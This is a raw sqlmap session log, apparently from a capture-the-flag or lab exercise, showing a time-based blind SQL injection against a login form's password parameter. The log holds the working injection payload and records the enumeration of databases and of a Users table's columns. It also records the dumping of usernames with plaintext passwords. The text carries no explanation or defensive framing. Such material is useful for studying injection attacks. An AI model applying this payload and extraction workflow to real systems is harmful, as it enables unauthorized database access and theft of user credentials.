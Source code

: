 ```jsx
    Payload: username=fPLr&password=' AND (SELECT 5612 FROM (SELECT(SLEEP(5)))WiKo) AND 'lvXp'='lvXp&submit= Login
---
do you want to exploit this SQL injection? [Y/n] Y
[04:23:40] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[04:23:40] [INFO] fetching database names
[04:23:40] [INFO] fetching number of databases
[04:23:40] [INFO] resumed: 4
[04:23:40] [INFO] resumed: information_schema
[04:23:40] [INFO] resumed: Webapp
[04:23:40] [INFO] resumed: mysql
[04:23:40] [INFO] resumed: performance_schema
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] Webapp

[04:23:40] [INFO] fetching columns for table 'Users' in database 'Webapp'
[04:23:40] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                
[04:23:41] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[04:23:56] [INFO] adjusting time delay to 1 second due to good response times
3
[04:23:56] [INFO] retrieved: id
[04:24:03] [INFO] retrieved: int(10)
[04:24:29] [INFO] retrieved: username
[04:24:53] [INFO] retrieved: varchar(255)
[04:25:33] [INFO] retrieved: password
[04:26:02] [INFO] retrieved: varchar(255)
Database: Webapp
Table: Users
[3 columns]
+----------+--------------+
| Column   | Type         |
+----------+--------------+
| id       | int(10)      |
| password | varchar(255) |
| username | varchar(255) |
+----------+--------------+

[04:26:42] [INFO] fetching columns for table 'Users' in database 'Webapp'
[04:26:42] [INFO] resumed: 3
[04:26:42] [INFO] resumed: id
[04:26:42] [INFO] resumed: username
[04:26:42] [INFO] resumed: password
[04:26:42] [INFO] fetching entries for table 'Users' in database 'Webapp'
[04:26:42] [INFO] fetching number of entries for table 'Users' in database 'Webapp'
[04:26:42] [INFO] retrieved: 5
[04:26:44] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)       
1
[04:26:46] [INFO] retrieved: iwilltakethering
[04:27:39] [INFO] retrieved: frodo
[04:27:59] [INFO] retrieved: 2
[04:28:02] [INFO] retrieved: MyPreciousR00t
[04:28:53] [INFO] retrieved: smeagol
[04:29:16] [INFO] retrieved: 3
[04:29:20] [INFO] retrieved: AndMySword
```